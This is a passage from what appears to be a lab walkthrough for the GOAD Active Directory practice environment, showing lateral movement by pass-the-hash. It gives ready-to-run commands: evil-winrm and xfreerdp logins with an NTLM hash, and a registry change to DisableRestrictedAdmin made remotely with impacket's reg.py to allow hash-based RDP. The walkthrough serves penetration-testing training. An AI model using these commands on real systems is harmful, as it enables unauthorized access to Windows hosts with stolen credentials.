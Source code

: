 ### Using winrm

- Winrm
  - protocol HTTP or HTTPS

```bash
evil-winrm -i 192.168.56.11 -u catelyn.stark -H 'cba36eccfd9d949c73bc73715364aff5'
```

![lateral_winrm.png](/assets/blog/GOAD/lateral_winrm.png)

![lateral_evilwinrm_wireshark.png](/assets/blog/GOAD/lateral_evilwinrm_wireshark.png)

### Using RDP

- If you try to do PTH with RDP :

```bash
xfreerdp /u:catelyn.stark /d:north.sevenkingdoms.local /pth:cba36eccfd9d949c73bc73715364aff5 /v:192.168.56.11
```

- You will have the following error :

![lateral_rdp_restriction.png](/assets/blog/GOAD/lateral_rdp_restriction.png)

>To allow rdp connection without password you must Enable restricted admin
{: .prompt-tip }

- Enable restricted admin:

```powershell
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```

- Let's do this from linux, first let's show the current value :

```bash
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' query -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' 
```

![lateral_rdp_query_disable_restricted_admin.png](/assets/blog/GOAD/lateral_rdp_query_disable_restricted_admin.png)

- The value doesn't exist we create it :

```bash
reg.py NORTH/catelyn.stark@192.168.56.11 -hashes ':cba36eccfd9d949c73bc73715364aff5' add -keyName 'HKLM\System\CurrentControlSet\Control\Lsa' -v 'DisableRestrictedAdmin' -vt 'REG_DWORD' -vd '0'
```

- Now try again rdp connection and it works \o/

![lateral_rdp_work.png](/assets/blog/GOAD/lateral_rdp_work.png)

- Once finished delete the created registry key
